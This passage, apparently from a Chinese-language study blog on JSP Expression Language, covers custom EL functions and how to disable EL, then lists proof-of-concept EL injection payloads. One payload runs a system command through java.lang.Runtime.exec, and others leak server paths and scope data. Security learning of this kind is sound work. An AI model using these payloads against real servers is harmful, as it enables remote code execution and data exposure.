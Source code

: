 ```jsp
<%--引入EL自定义函数库 --%>
<%@taglib uri="/ELFunc" prefix="fn" %>
${fn:up("123aaabbbCCC")}
```



实验了好久代码应该是没问题的，但是还是有报错，后面需要再解决这个问题吧，今天是解决不了了，不然一天没了。。。



### 禁用/启用EL表达式

全局禁用EL表达式，web.xml中进入如下配置：

```xml
<jsp-config>
    <jsp-property-group>
        <url-pattern>*.jsp</url-pattern>
        <el-ignored>true</el-ignored>
    </jsp-property-group>
</jsp-config>
```

单个文件禁用EL表达式 在JSP文件中可以有如下定义：

```java
<%@ page isELIgnored="true" %>
```

该语句表示是否禁用EL表达式，TRUE表示禁止，FALSE表示不禁止。

JSP2.0中默认的启用EL表达式。

## EL表达式注入

原理都是一样的：表达式全部或部份外部可控。列一些通用的poc

```jsp
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc").getInputStream())}
```
